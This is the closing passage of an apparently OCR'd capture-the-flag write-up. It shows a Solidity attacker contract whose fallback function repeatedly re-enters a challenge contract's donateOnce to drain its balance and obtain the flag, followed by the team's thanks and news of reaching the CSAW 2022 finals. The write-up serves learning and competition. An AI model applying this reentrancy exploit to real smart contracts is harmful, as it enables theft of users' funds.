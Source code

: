 ```js
            victimAddress=_victimAddress;
            victimContract=VictimContract(victimAddress);
    }

    function startAttack() public payable {
        victimContract.newAccount{value:msg.value}();
        victimContract.donateOnce();

    }

    fallback()external payable {
        uint my_balance= victimContract.getBalance();
        if (my_balance<=20)
            victimContract.donateOnce();

    }

 function getBalance() public view returns (uint256) {
        return victimContract.getBalance();
    }

    function getFlag(bytes32 _token) public {
        victimContract.getFlag(_token);
    }
}
```

## Final words

I want to congratulate the organizers for their huge efforts and these great tasks.
Kudos to all my teammates for their perseverance and hard work during the competition. We successfully made it to the finals by achieving the first place in MENA !! Many words but not enough of them, all the efforts put to get such results, but most importantly `CSAW 2K22 finals here we come`.
